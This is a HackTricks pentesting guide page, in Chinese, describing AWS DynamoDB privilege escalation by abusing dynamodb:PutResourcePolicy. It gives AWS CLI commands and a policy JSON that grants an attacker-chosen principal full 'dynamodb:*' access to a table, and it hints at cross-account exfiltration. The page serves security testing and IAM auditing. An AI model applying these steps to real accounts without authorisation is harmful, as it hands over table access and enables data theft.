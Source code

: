 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

有关 dynamodb 的更多信息请参见：

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`，可选的 `dynamodb:GetResourcePolicy`

从 2024 年 3 月起，AWS 为 DynamoDB 提供了 *基于资源的策略*（[AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)）。

因此，如果你对某个表拥有 `dynamodb:PutResourcePolicy`，你就可以直接授予自己或任何其他主体对该表的完全访问权限。

将 `dynamodb:PutResourcePolicy` 授予某个随机主体常常是无意间发生的，可能是因为管理员认为授予 `dynamodb:Put*` 只会允许该主体向数据库放入项，或者他们在 2024 年 3 月之前就授予了该权限集...

理想情况下，你还拥有 `dynamodb:GetResourcePolicy`，这样你就不会覆盖其他可能重要的权限，而只是注入你需要的新增权限：
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
如果无法检索当前策略，请使用下面这个，它授予你的 principal 对该表的完全访问权限：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
如果你需要自定义，这里有一个包含所有可能的 DynamoDB 操作的列表： [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html)。另外，这里是一个可以通过基于资源的策略允许的所有操作的列表 *以及哪些可以用于跨账户（think data exfiltration!）*： [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

现在，在准备好策略文档 `policy.json` 后，放入资源策略：
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
现在，你应该已经拥有所需的权限。

### Post Exploitation

据我所知，单凭一些 AWS `dynamodb` 权限，**没有其他直接方法可以在 AWS 中提升权限**。你可以从表中**读取敏感**信息（这些信息可能包含 AWS 凭证），也可以**向表中写入信息**（这可能触发其他漏洞，例如 lambda 代码注入...），但所有这些选项都已在 **DynamoDB Post Exploitation page** 中考虑：

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: 通过滥用 data Streams 读取数据

{{#include ../../../../banners/hacktricks-training.md}}
